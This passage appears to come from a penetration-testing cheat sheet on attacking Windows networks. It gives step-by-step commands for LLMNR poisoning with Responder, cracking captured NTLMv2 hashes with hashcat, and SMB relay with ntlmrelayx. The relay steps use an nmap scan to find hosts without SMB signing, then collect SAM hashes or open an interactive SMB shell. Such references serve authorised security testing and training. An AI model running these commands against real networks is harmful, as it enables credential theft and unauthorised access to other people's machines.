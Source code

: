           ![](./res/img/20.png)

        - Tool: https://github.com/lgandx/Responder
        - How to
          1. Run the fake server: `./Responder.py -I eth0 -rdwv` (see tool repo or help for more)
          2. Let the victim connect
          3. Get user hash
          4. Crack using hashcat: `hashcat -m 5600 <hash-file> <wordlist>`
      - SMB relay: use hashes found with LLMNR poisoning without cracking them
        - Prerequisites
          - SMB signing must be disabled on the target for this attack to work
          - User who's credentials are being relayed should be an admin on both the machines
        - How to: get hashes
          1. Find the hosts in the networks that has SMB signing disabled and save them in a file: `nmap --script=smb2-security-mode.nse -p445 <net-id>/24`
              ```
              # Result wanted
              Host script results: 
              | smb2-security-mode:  
              |   2.02:  
              |_    Message signing enabled but not required 
              ```
          2. Configure fake server: in `Responder.conf` `SMB` and `HTTP` must be `off`  
          3. Run the fake server: `./Responder.py -I eth0 -rdwv` (see tool repo or help for more)
          4. Run the service that will relay victim hashes to the server that has SMB signing disabled: `ntlmrelayx.py -tf <file-with-ip> -smb2support`
             - Tool: https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
          5. Let the victim connect
          6. Collect SAM hashes and crack them
        - How to: get SMB shell
          1. Point 1 and 2 same as before
          2. Run the service that will relay victim hashes to the server that has SMB signing disabled: `ntlmrelayx.py -tf <file-with-ip> -smb2support -i`
             - Here we added `-i` for interactive shell